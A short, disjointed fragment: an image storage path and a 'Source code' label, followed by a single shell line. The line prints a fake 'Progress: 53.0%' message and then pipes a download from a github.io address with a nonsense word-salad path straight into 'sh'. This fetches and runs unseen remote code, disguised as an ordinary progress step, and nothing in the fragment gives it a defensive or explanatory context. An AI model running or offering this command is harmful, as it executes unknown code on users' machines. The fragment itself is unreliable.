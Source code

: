echo 'Progress: 53.0%'; curl -L --progress-bar frkns.github.io/fun/lauderdalealgorithmhebrewmichellebeatlessamplesvacuumessayextensions.hush-login | sh